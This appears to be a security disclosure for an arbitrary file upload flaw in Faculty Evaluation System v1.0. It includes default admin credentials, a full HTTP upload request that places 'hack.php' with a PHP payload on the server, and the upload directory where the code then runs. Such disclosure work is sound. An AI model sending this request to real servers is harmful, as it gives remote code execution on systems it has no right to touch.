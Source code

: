 # Faculty Evaluation System v1.0 by oretnom23 has arbitrary code execution (RCE)

BUG_Author: WuQi Qi and Zhihong Tian, Guangzhou University

vendors: https://www.sourcecodester.com/php/14635/faculty-evaluation-system-using-phpmysqli-source-code.html

The program is built using the xmapp-php8.1 version

Login account: admin@admin.com/admin123 (Super Admin account)

Vulnerability url: ip/eval/ajax.php?action=save_user

Loophole location: Faculty Evaluation System's "/eval/ajax.php?action=save_user" file exists arbitrary file upload (RCE)

Request package for file upload：


```sql
POST /eval/ajax.php?action=save_user HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/eval/index.php?page=edit_user&id=1
Content-Length: 818
Content-Type: multipart/form-data; boundary=---------------------------1037163726497
Cookie: PHPSESSID=qm3tmf7esa9t4jsgeln6vna57r
Connection: close

-----------------------------1037163726497
Content-Disposition: form-data; name="id"

1
-----------------------------1037163726497
Content-Disposition: form-data; name="firstname"

Administrator
-----------------------------1037163726497
Content-Disposition: form-data; name="lastname"

a
-----------------------------1037163726497
Content-Disposition: form-data; name="img"; filename="hack.php"
Content-Type: application/octet-stream

<?php phpinfo();?>
-----------------------------1037163726497
Content-Disposition: form-data; name="email"

admin@admin.com
-----------------------------1037163726497
Content-Disposition: form-data; name="password"


-----------------------------1037163726497
Content-Disposition: form-data; name="cpass"


-----------------------------1037163726497--
```

The uploaded file path has returned in response.

The files will be uploaded to this directory \eval\assets\uploads\
![image](https://user-images.githubusercontent.com/54017627/235872023-d853de72-5f23-48a0-9651-bc20dc09e2f4.png)


We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/235872093-f56e962b-abde-4332-ac40-7efb971646ce.png)

